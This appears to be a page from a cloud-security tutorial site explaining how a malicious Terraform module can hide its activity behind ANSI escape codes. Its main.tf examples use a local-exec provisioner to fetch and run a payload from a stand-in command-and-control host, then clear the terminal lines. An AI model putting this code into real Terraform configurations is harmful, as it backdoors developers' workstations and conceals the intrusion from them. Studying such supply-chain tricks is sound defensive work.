 ```yaml
---
author_name: Nick Frichette
title: Terraform ANSI Escape
description: Using ANSI Escape Sequences to Hide Malicious Terraform Code
hide:
  - toc
---
```


# Terraform ANSI Escape

Original Research: [Joern Schneeweisz](https://about.gitlab.com/blog/2022/06/01/terraform-as-part-of-software-supply-chain-part1-modules-and-providers/)

When performing a Terraform [apply](https://www.terraform.io/cli/commands/apply) from a local workstation, Terraform will output a list of resources it has created, updated, or deleted. Because this is taking place in a terminal, we can potentially use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) to alter this output. This would allow us to hide or obfuscate malicious activity, such as in a malicious Terraform module.

Take for example the following Terraform code.

``` tf title="main.tf"
resource "null_resource" "hypothetical_ec2_instance" {
}

resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload"
  }
}
```

In this example, we are using a [local-exec](https://www.terraform.io/language/resources/provisioners/local-exec) provisioner to run shell commands. If we were to backdoor a module or git repository storing Terraform configurations, and a developer were to download them and run them on their workstation, this would run the shell commands on their workstation.

!!! Tip
    As an alternative to local-exec, you can also use [external_provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

The problem is that this output would get displayed to the user, for example:

![Regular Output](/images/terraform/terraform_ansi_escape_evasion/regular_output.png)

To solve this, we can use ANSI escape codes to modify this output. It is worth noting that the specific sequences we will need to use will depend on the terminal type the victim is using. The following example is using [gnome-terminal](https://gitlab.gnome.org/GNOME/gnome-terminal) on Ubuntu.

```
\033[2K # Clears the current line
\033[A  # Moves the cursor to the previous line
```

So, we can modify our payload to the following to hide the malicious activity.

``` tf title="main.tf"
resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload; echo -e '\\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A'"
  }
}
```

And this is the output:

![Modified Output](/images/terraform/terraform_ansi_escape_evasion/modified_output.png)
